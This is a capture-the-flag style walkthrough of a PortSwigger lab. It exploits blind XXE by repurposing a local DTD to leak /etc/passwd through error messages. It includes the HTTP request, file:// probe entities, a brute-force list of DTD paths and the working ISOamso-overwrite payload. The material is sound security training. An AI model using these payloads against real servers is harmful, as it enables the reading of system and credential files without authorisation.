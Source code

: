 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/c376d8d9-e800-4e8d-ba2c-92d96b6edcb2)

## Overview :

The preceding technique [using external entities to retreive data by inducing error messages] works fine with an external DTD, but it won't normally work with an internal DTD that is fully specified within the DOCTYPE element. This is because the technique involves using an XML parameter entity within the definition of another parameter entity. **As  per the XML specification, this is permitted in external DTDs but not in internal DTDs. (Some parsers might tolerate it, but many do not.)** 

In blind XXE vulnerabilities when out-of-band interactions are blocked, You can't exfiltrate data via an out-of-band connection, and you can't load an external DTD from a remote server.

In such cases we can perform the following steps,

1. Find any local DTD's present in the server.
2. Redefine/Overwrite the entity in a local DTD file found with a payload to retreive `/etc/passwd`.
3. Induce an error in the payload (non-existent resource) , so that in the response we get the error along with the contents of /etc/passwd.

> Payload - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#windows-local-dtd-and-side-channel-leak-to-disclose-http-responsefile-contents

## Solution :

Clicking on checkstock feature sends the following request,

```xml
POST /product/stock HTTP/2
Host: 0a2600c803d5054782fe938700bd00e8.web-security-academy.net
Cookie: session=wDrayLHAxtyDwXHTFHEpvEYW5kFaS3zu
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a2600c803d5054782fe938700bd00e8.web-security-academy.net/product?productId=2
Content-Type: application/xml
Content-Length: 107
Origin: https://0a2600c803d5054782fe938700bd00e8.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>2</productId>
  <storeId>1</storeId>
</stockCheck>
```

#### Identify which  local DTD is present on the server -

First let's declare a DOCTYPE with an external entity pointing to a **file that actually exist** 

- `<!DOCTYPE example [<!ENTITY % file SYSTEM "file:///etc/passwd"> %file;]>`


We get this XML parsing error in response.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b0d4f2dd-0d32-47db-a57d-228e83804983)


What if we gave an **_non-existent file** ?_ with a modification in the DOCTYPE 

- `<!DOCTYPE example [<!ENTITY % file SYSTEM "file:///doesnotexist"> %file;]>`

This time we get a **File not found error**.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/1e2e51e7-2b29-4d58-a08b-5b22d6772508)


With this information that we've enumerated, we can bruteforce the files with a list of known and available DTD's to find which DTD's exist and which do not.

> Reference -
>
> Blog post on repurposing a DTD - https://www.gosecure.net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation/

```bash
./properties/schemas/j2ee/XMLSchema.dtd
./../properties/schemas/j2ee/XMLSchema.dtd
./../../properties/schemas/j2ee/XMLSchema.dtd
/usr/share/java/jsp-api-2.2.jar!/javax/servlet/jsp/resources/jspxml.dtd
/usr/share/java/jsp-api-2.3.jar!/javax/servlet/jsp/resources/jspxml.dtd
/root/usr/share/doc/rh-python34-python-docutils-0.12/docs/ref/docutils.dtd
/root/usr/share/doc/rh-python35-python-docutils-0.12/docs/ref/docutils.dtd
/usr/share/doc/python2-docutils/docs/ref/docutils.dtd
/usr/share/yelp/dtd/docbookx.dtd
/usr/share/xml/fontconfig/fonts.dtd
/usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd
/usr/lib64/erlang/lib/docbuilder-0.9.8.11/dtd/application.dtd
/usr/share/boostbook/dtd/1.1/boostbook.dtd
/usr/share/boostbook/dtd/boostbook.dtd
/usr/share/dblatex/schema/dblatex-config.dtd
/usr/share/struts/struts-config_1_0.dtd
/opt/sas/sw/tomcat/shared/lib/jsp-api.jar!/javax/servlet/jsp/resources/jspxml.dtd
```

- Send the request to Intruder & add the `file:///`  position to bruteforce.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [<!ENTITY % file SYSTEM "file://§/donotexist§"> %file;]>
 <stockCheck>
  <productId>2</productId>
  <storeId>1</storeId>
 </stockCheck>
```

- Add payload as list of these DTD's to bruteforce to find which of the DTD's which are existing

- Uncheck the  `URL encode characters` option

- ![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/d6b1d583-2242-418c-9fc0-6463ab2f50fe)

Start attack.

From the result , we can see that only 2 DTD's are present on the server

- `/usr/share/yelp/dtd/docbookx.dtd`
- `/usr/share/xml/fontconfig/fonts.dtd`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/0b3e525d-ece8-4f40-bb78-0872924cb12f)


Now we need to find what entities are defined in that particular DTD to overwrite them. For this we have to search online & do some research.

For the sake of completing this lab & not wasting time, we have been given the name of the entitiy which is `ISOamso`.

#### Overwriting the entitiy in docbookx.dtd -

This payload below overwrites the `ISOamso` entity in the local DTD named `docbookx.dtd` with the contents of `/etc/passwd`.

Then it uses an external entity to retreive an nonexistent file which then induces an error. So we will get the error and the contents of /etc/passwd in the response.

```xml
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4266ebd5-327c-42c7-aa08-899193a3ac50)


Thus we've solved the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/676da997-eb39-42fa-a258-eb3c9100603e)








